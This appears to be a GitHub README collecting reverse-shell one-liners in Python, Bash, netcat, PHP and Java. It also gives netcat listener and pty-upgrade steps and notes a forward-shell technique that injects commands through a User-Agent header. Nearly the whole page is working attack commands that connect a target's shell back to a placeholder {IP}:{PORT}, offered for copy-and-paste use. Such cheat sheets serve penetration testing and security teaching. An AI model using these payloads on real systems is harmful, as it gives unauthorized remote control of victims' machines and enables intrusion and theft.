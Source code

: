 Reverse-Shell
=============

A list of Reverse Shells on multiple languages. Replace `{IP}` and `{PORT}` values
with a couple `IP:port` the server can access. Then, on your local machine you open
a listener with `netcat`:

## On local machine
To listen for an incoming connection and upgrade to a pty shell:
```bash
nc -lvnp {PORT}

# after the connection is established
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then, `Ctrl-Z` to suspend the connection and return to your own terminal.
Type on your terminal:
```bash
stty raw -echo
```

The console should be black, next foreground the shell with:
```bash
fg
reset
```

On target host
```
export SHELL=bash
export TERM=xterm-256color
stty rows 24 columns 80
```


## On the remote server

### Windows
```bash
> cmd.exe /C <cmd>
```

### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

### Netcat
```bash
nc -e /bin/sh {IP} {PORT}
```

### Java
```java
r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
String[] cmd={"cmd","/C","<cmd>"};Runtime.getRuntime().exec(cmd);
```

This payload can also work with `BeanShell` scripts.


### PHP
```bash
php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```


## Forward shell

If the remote server cannot contact your local machine, it's still possible to
use a shell that accept commands from named pipes using `mkfifo` and send the
output to a file.

IppSec has a repository on Github with a simple but effective script to demonstrate
the technique on a vulnerable web server: [`forward-shell`](https://github.com/IppSec/forward-shell).
You need to set the vulnerable url (`self.url = r"http://'...`) and the exploit
arguments (`headers = {'User-Agent': payload}`). Remember that you can use the same
technique on other services that allow you to inject commands.
